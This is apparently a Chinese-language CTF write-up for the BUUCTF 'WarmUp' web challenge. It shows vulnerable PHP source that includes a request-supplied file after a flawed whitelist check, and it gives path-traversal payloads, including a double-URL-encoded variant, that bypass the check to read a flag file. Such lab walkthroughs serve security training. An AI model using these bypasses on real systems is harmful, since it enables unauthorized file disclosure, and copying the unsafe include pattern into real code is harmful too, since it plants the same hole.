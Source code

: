 ```yaml
---
layout: post
title: "BUUCTF-WEB-WriteUp"
date: 2019-10-10 01:01:01
share: true
toc: true
tags: 
 - CTF
---
```


## WarmUp
打开网址显示一个滑稽 查看源码提示`source.php`
- 打开/source.php 查看源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

- class emmm中checkFile中有一段

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

访问hint.php
显示`flag not here, and flag in ffffllllaaaagggg`
- 回去看source.php源码

```php
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    }
```

当满足三个条件 file值不为空 file值为字符串 checkFile为真 执行file `任意文件包含`
- 前两个条件容易满足 关键checkFile返回真
此函数有多处返回真代码 可以利用的代码片段是两处
- 第一处利用代码

```php
 $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```
这一段代码条件满足字符串中`?`之前的字符串在whitelist中也就是source.php或hint.php后面紧跟../包含ffffllllaaaagggg
经测试需要四层../../../../
构造payload`?file=source.php?/../../../../ffffllllaaaagggg`或`?file=hint.php?/../../../../ffffllllaaaagggg`
- 第二处利用代码

```php

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

字符串经过一次url解码 在进行同上步骤 所以`?`两次url编码为`%253f`
构造payload`?file=source.php%253f/../../../../ffffllllaaaagggg`或`?file=hint.php%253f/../../../../ffffllllaaaagggg`
- flag{2d960f01-7d02-446e-9888-d9a08d6f266a}